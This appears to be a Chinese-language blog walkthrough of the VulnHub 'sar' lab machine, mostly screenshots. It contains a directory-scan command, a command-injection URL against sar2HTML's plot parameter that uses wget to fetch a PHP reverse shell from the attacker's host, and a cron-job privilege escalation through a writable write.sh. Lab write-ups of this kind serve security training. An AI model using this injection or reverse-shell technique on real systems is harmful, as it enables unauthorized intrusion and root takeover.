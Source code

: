 ```yaml
---
layout: post
title:  "vulnhub >_ sar"
description: walkthrough
category: vulnhub
---
```

# sar

只有80一个端口

![image-20200612221835140]({{ site.url }}/assets/sar.assets/image-20200612221835140.png)

```bash
sudo dirsearch -u http://192.168.1.116/ -e php,txt,apsx,asp,html -w /usr/share/wordlists/dirb/big.txt -r
```

![image-20200612221957180]({{ site.url }}/assets/sar.assets/image-20200612221957180.png)

![image-20200612222019820]({{ site.url }}/assets/sar.assets/image-20200612222019820.png)



![image-20200612222250185]({{ site.url }}/assets/sar.assets/image-20200612222250185.png)





![image-20200612222755430]({{ site.url }}/assets/sar.assets/image-20200612222755430.png)



![image-20200612222839388]({{ site.url }}/assets/sar.assets/image-20200612222839388.png)



![image-20200612223100589]({{ site.url }}/assets/sar.assets/image-20200612223100589.png)



![image-20200612223215533]({{ site.url }}/assets/sar.assets/image-20200612223215533.png)

确认wget

![image-20200612223600846]({{ site.url }}/assets/sar.assets/image-20200612223600846.png)

制作php rshell

![image-20200612223417226]({{ site.url }}/assets/sar.assets/image-20200612223417226.png)

假设本地服务，通过wget下载到目录

```bash
http://192.168.1.116/sar2HTML/index.php?plot=;wget http://192.168.1.108:8080/php-reverse-shell.php
```

![image-20200612223932578]({{ site.url }}/assets/sar.assets/image-20200612223932578.png)



![image-20200612224134448]({{ site.url }}/assets/sar.assets/image-20200612224134448.png)



使用ls也可以认证上传成功

![image-20200612224030807]({{ site.url }}/assets/sar.assets/image-20200612224030807.png)



![image-20200612224235766]({{ site.url }}/assets/sar.assets/image-20200612224235766.png)



![image-20200612225433054]({{ site.url }}/assets/sar.assets/image-20200612225433054.png)

计划任务中有一个脚本是以root执行的。`/var/www/html/finally.sh`

![image-20200612225349418]({{ site.url }}/assets/sar.assets/image-20200612225349418.png)



![image-20200612230156082]({{ site.url }}/assets/sar.assets/image-20200612230156082.png)

不可写，查看一下内容，发现关联的write.sh是可写的。

![image-20200612230312349]({{ site.url }}/assets/sar.assets/image-20200612230312349.png)

由于vi回显示不好，直接本地复制文本，目标上vi write.sh `dd`删除行，然后粘帖进去文本保存

![image-20200612233521205]({{ site.url }}/assets/sar.assets/image-20200612233521205.png)

任务5分钟执行一次。监听等待得到root

![image-20200612233623038]({{ site.url }}/assets/sar.assets/image-20200612233623038.png)

